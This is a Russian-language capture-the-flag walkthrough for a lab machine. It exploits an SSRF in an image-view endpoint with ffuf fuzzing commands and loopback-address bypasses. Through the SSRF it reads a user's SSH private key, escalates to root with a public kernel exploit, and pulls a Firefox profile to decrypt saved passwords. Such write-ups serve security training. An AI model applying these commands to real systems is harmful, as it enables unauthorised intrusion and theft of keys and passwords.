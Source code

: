 Изучив сайт страница upload и feedback не имеет уязвимости. На странице gallery находим надпись " <!--To devs: Make sure that people can also add images using links-->"
 Исследуем dejaview(view_image) с возможностью отправки URL
![](../attachment/Pasted%20image%2020250408230722.png)
Исследуем какие параметры работают для SSRF
![](../attachment/Pasted%20image%2020250408214221.png)

Есть возможность прочитать свою директорию, но при чтение локальной директории получаем ошибку (отличающуюся от других ошибок)
![](../attachment/Pasted%20image%2020250408212819.png)![](../attachment/Pasted%20image%2020250408213130.png)
Попробуй обойти фильтр используя словарь [SSRF Cheat Sheet & Bypass Techniques](https://highon.coffee/blog/ssrf-cheat-sheet/)
```
ffuf -w ssrf -X POST -H "Content-Type: application/x-www-form-urlencoded" -u "http://10.10.147.13:8080/view_image" -d "www=http://FUZZ" -fw 27
```
![](../attachment/Pasted%20image%2020250408214141.png)

![](../attachment/Pasted%20image%2020250408213243.png)



Перечислим директории которые есть на 80 порту

```
ffuf -w ~/Downloads/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -u "http://10.10.147.13:8080/view_image" -d "www=http://127.1:80/FUZZ" -fw 96
```
![](../attachment/Pasted%20image%2020250408214905.png)
![](../attachment/Pasted%20image%2020250408214844.png)
Изучив директории и файлы ничего интересного нет.
```
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" http://10.10.147.13:8080/view_image -d "www=http://127.1:80/static/3.jpg" --output 3.jpg
```

Попробуем другой словарь и увидим что мы в домашней директории
```
ffuf -w ~/Downloads/YAWR-master/Web/files_and_directories/the_biggest.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -u "http://10.10.147.13:8080/view_image" -d "www=http://127.1:80/FUZZ" -fw 96
```
![](../attachment/Pasted%20image%2020250408215932.png)
в authorized_keys мы находим пользователя, в id_rsa приватный ключ 
![](../attachment/Pasted%20image%2020250408231801.png)
Копируем приватный ключ, выдаем права 600 и подключаемся к машине. Забираем первый флаг
![](../attachment/Pasted%20image%2020250408232714.png)
Запустив linpeas видим возможность реализации subuid
![](../attachment/Pasted%20image%2020250408232134.png)
![](../attachment/Pasted%20image%2020250408223527.png)
Эксплоит не сработал хоть и есть root
Поищем эксплоит для ядра 4.15.0-112-generic ([GitHub - zerozenxlabs/ZDI-24-020](https://github.com/zerozenxlabs/ZDI-24-020))
Переместив его на машину, компилируем, запускаем и получаем флаг рут 
![](../attachment/Pasted%20image%2020250408223938.png)
брутфорс Пароля пользователя charles в виде sha512crypt был бы долгим поэтому обратив внимание на директорию .mozila в домашнем каталоге пользователя
Переместим себе папку с данными пользователя firefox и воспользуемся скриптом [GitHub - unode/firefox_decrypt: Firefox Decrypt is a tool to extract passwords from Mozilla (Firefox™, Waterfox™, Thunderbird®, SeaMonkey®) profiles](https://github.com/unode/firefox_decrypt?ysclid=m98ygn5wq322146495) для вывода паролей в чистом виде

```
 wget -r http://10.10.147.13:5566/8k3bf3zp.charles
``` 
![](../attachment/Pasted%20image%2020250408225951.png)
